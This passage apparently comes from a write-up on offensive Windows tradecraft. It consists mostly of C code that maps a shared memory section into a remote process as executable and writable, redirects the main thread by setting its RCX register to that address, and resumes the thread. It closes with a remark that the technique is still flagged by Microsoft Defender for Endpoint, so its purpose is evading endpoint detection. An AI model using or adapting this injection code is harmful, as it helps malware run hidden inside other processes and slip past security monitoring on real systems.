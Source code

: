 ```

	status = ntMapViewOfSection(
		localSection,
		ntHandle,
		&hRemoteAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	CONTEXT threadContext;
	threadContext.ContextFlags = CONTEXT_INTEGER;

	ntGetContextThread(ntThread, &threadContext);

	// Update RCX register in the context
	threadContext.Rcx = (DWORD64)hRemoteAddress;

	// Set the modified context back to the main thread
	ntSetContextThread(ntThread, &threadContext);

	// Resume the thread (you can use NtResumeThread if needed)
	ntResumeThread(ntThread, NULL);
	
	// unmap memory from local process
	status = ntUnmapViewOfSection(
	GetCurrentProcess(),
	hLocalAddress);

	// Clean up injected process
	if(hParent) CloseHandle(hParent);
	RtlFreeHeap(RtlProcessHeap(), 0, AttributeList);
	RtlFreeHeap(RtlProcessHeap(), 0, stdHandleInfo);
	RtlFreeHeap(RtlProcessHeap(), 0, clientId);
	RtlFreeHeap(RtlProcessHeap(), 0, SecImgInfo);
 	RtlDestroyProcessParameters(ProcessParameters);

	// Close Debug process
	CloseHandle(process.hProcess);
	TerminateProcess(process.hProcess, 0);
}
```

Executing against MDE we are still flagged:
